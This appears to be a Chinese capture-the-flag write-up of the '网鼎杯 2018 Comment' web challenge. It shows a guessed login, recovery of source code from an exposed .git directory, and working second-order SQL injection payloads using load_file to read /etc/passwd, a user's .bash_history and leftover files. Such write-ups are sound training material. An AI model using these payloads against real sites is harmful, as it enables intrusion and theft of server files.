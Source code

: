 # [网鼎杯 2018]Comment
![](<./img/Pasted image 20230119140827.png>)

![](<./img/Pasted image 20230119140851.png>)

尝试发帖时被要求登陆

![](<./img/Pasted image 20230119141013.png>)

一时竟没想到是猜密码

```
username: zhangwei
password: zhangwei666
```

![](<./img/Pasted image 20230119141928.png>)

```
/comment.php?id=1
```

![](<./img/Pasted image 20230119142123.png>)

# 获取源码

扫描目录

![](<./img/Pasted image 20230119142301.png>)

存在`git`泄露

![](<./img/Pasted image 20230119142408.png>)

![](<./img/Pasted image 20230119142530.png>)

被骗了.jpg

然后发现一个功能更强大一点的`githacker`

```shell
githacker --url http://99171b24-38c9-4bf6-ae83-d4cecaa108ef.node4.buuoj.cn:81/.git/ --output-folder result --delay 0.1 --threads 1
```

```shell
git log --reflog
```

![](<./img/Pasted image 20230119144942.png>)

可以看出进行过版本回退

```shell
git reset --hard e5b2a
```

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
	    $category = mysql_fetch_array($result)['category'];
	    $content = addslashes($_POST['content']);
	    $sql = "insert into comment
	            set category = '$category',
	                content = '$content',
	                bo_id = '$bo_id'";
	    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

在`write`操作中，所有的`POST`参数都经过了`addslashes`的转义，而在`comment`操作中，`category`却没有进行`addslashes`转义，这就给二次注入创造了机会

# 文件读取

综合利用单行和多行注释使查询合法
```
title=ttt&content=ccc&category=',content=load_file('/etc/passwd')/*
```

这时发表评论内容

```
content=*/,#
```

注入的结果是这样

```sql
insert into comment
set category = '',content=load_file('/etc/passwd')/*',
    content = '*/,#',
    bo_id = '$bo_id'
```

![](<./img/Pasted image 20230119153110.png>)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/var/lib/mysql:/bin/false
www:x:500:500:www:/home/www:/bin/bash
```

不寻常的一点是，用户`www`就像普通用户一样拥有`/home`下的家目录

而且通常非登录用户的登录`shell`都设为`nologin`以防止其登录，而`www`的登录`shell`却被设置为`bash`，此事必有蹊跷

![](<./img/Pasted image 20230119154202.png>)

读取`/home/www/.bash_history`

```shell
cd /tmp/
unzip html.zip
rm -f html.zip
cp -r html /var/www/
cd /var/www/html/
rm -f .DS_Store
service apache2 start
```

1. 在`/tmp`下解压了`html.zip`
2. 删除压缩包
3. 将解压出来的`html`文件夹递归复制到`/var/www`下
4. 删除`/var/www/html/.DS_Store`
5. 启动服务器

删了，但没完全删掉.jpg

读取`/tmp/html/.DS_Store`

对于二进制文件，采用十六进制编码输出

```sql
hex(load_file('/tmp/html/.DS_Store'))
```

```python
s = 'xxxxxx'

f = open('.DS_Store','w')

for i in range(len(s) // 2):
    ss = s[2 * i: 2 * i + 2]
    f.write(chr(int(ss, base=16)))
```

![](<./img/Pasted image 20230119164005.png>)

读取`/tmp/html/flag_8946e1ff1ee3e40f.php`

![](<./img/Pasted image 20230119164349.png>)

然后发现这个`flag`是假的QAQ

真正的`flag`在`/var/www/html/`下

![](<./img/Pasted image 20230119164540.png>)
